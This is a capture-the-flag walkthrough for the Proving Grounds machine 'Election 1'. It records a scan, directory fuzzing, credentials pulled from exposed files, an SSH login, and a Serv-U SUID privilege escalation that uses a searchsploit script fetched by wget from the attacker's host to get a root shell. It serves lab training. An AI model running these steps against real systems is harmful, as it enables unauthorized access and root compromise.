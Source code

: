 ```yaml
---
layout: default
title: Election 1
parent: Proving Grounds Play
nav_order: 11
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/election1]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.160.211
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-10 22:07 EST
Nmap scan report for 192.168.160.211
Host is up (0.065s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 20:d1:ed:84:cc:68:a5:a7:86:f0:da:b8:92:3f:d9:67 (RSA)
|   256 78:89:b3:a2:75:12:76:92:2a:f9:8d:27:c1:08:a7:b9 (ECDSA)
|_  256 b8:f4:d6:61:cf:16:90:c5:07:18:99:b0:7c:70:fd:c0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

# Enumeration

---

## 80 | HTTP

### Directory Busting

WFuzz for files

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "http://192
.168.160.211/FUZZ"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl
. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more informatio
n.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.160.211/FUZZ
Total requests: 37050

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000069:   200        375 L    964 W      10918 Ch    "index.html"
000000157:   403        9 L      28 W       280 Ch      ".htaccess"
000000248:   200        4 L      4 W        30 Ch       "robots.txt"
000000279:   200        1172 L   5873 W     95704 Ch    "phpinfo.php"
000000379:   200        375 L    964 W      10918 Ch    "."
000000537:   403        9 L      28 W       280 Ch      ".html"
000000806:   403        9 L      28 W       280 Ch      ".php"
000001564:   403        9 L      28 W       280 Ch      ".htpasswd"
000001830:   403        9 L      28 W       280 Ch      ".htm"
000002100:   403        9 L      28 W       280 Ch      ".htpasswds"
000004625:   403        9 L      28 W       280 Ch      ".htgroup"
000005172:   403        9 L      28 W       280 Ch      "wp-forum.phps"
```

Wfuzz for directories

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/driftingblues]
└─$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt --hc 404 "http://192.168.160.211/FUZZ"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.160.211/FUZZ
Total requests: 62284

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000139:   301        9 L      28 W       323 Ch      "javascript"
000000300:   301        9 L      28 W       323 Ch      "phpmyadmin"
000004255:   200        375 L    964 W      10918 Ch    "http://192.168.160.211/"
000004227:   403        9 L      28 W       280 Ch      "server-status"
000005666:   301        9 L      28 W       321 Ch      "election"
```

Robots.txt shows 4 entries

![robots](../../../assets/images/ctfs/proving_grounds/election1/robots.png)

Ran Gobuster against _/election_ directory and located _card.php_

![card](../../../assets/images/ctfs/proving_grounds/election1/card.png)

Decoded the binary code and revealed credentials

![creds](../../../assets/images/ctfs/proving_grounds/election1/creds.png)

Located the following credentials: 1234:Zxc123!@#
{: .warn}

Use the credentials to logon to the admin console discovered by Gobuster at _/election/admin_

![admin](../../../assets/images/ctfs/proving_grounds/election1/admin.png)

Deadend. Moving on to other directories found by Gobuster.

# Exploitation

---

We discover _/election/admin/logs_ and a _system.log_ file which provides credentials.

![logs](../../../assets/images/ctfs/proving_grounds/election1/logs.png)

Located the following credentials: love:P@$$w0rd@123
{: .warn }

We can use these credentials to authenticated to the SSH service on the target.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/election1]
└─$ ssh love@192.168.160.211
The authenticity of host '192.168.160.211 (192.168.160.211)' can't be established.
ED25519 key fingerprint is SHA256:z1Xg/pSBrK8rLIMLyeb0L7CS1YL4g7BgCK95moiAYhQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.160.211' (ED25519) to the list of known hosts.
love@192.168.160.211's password:
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.4.0-120-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

471 packages can be updated.
358 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2023.
Last login: Thu Apr  9 23:19:28 2020 from 192.168.1.5
love@election:~$ id
uid=1000(love) gid=1000(love) groups=1000(love),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare)

```

# Post-Exploitation

---

## SUID Permissions

```bash
love@election:~$ find / -perm -u=s -type f 2>/dev/null

/usr/bin/arping
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/sbin/pppd
/usr/local/Serv-U/Serv-U
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
```

## Exploit Serv-U Privesc Exploit

We locate the version of the Serv-U service as 15.1.6.25

![version](../../../assets/images/ctfs/proving_grounds/election1/version.png)

Checking searchsploit, there is a privesc shell script for Serv-U version under 15.1.

![searchsploit](../../../assets/images/ctfs/proving_grounds/election1/searchsploit.png)

Move the exploit to the target

```bash
love@election:/tmp$ wget http://192.168.45.217:8000/47173.sh
--2023-11-11 09:38:30--  http://192.168.45.217:8000/47173.sh
Connecting to 192.168.45.217:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1163 (1.1K) [text/x-sh]
Saving to: ‘47173.sh’

47173.sh            100%[===================>]   1.14K  --.-KB/s    in 0s

2023-11-11 09:38:30 (89.3 MB/s) - ‘47173.sh’ saved [1163/1163]

love@election:/tmp$ chmod +x 47173.sh
love@election:/tmp$ ./47173.sh
[*] Launching Serv-U ...
sh: 1: : Permission denied
[+] Success:
-rwsr-xr-x 1 root root 1113504 Nov 11 09:38 /tmp/sh
[*] Launching root shell: /tmp/sh
sh-4.4# id
uid=1000(love) gid=1000(love) euid=0(root) groups=1000(love),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare)
sh-4.4# whoami
root

```

After executing the Serv-U privesc script we have a root shell.
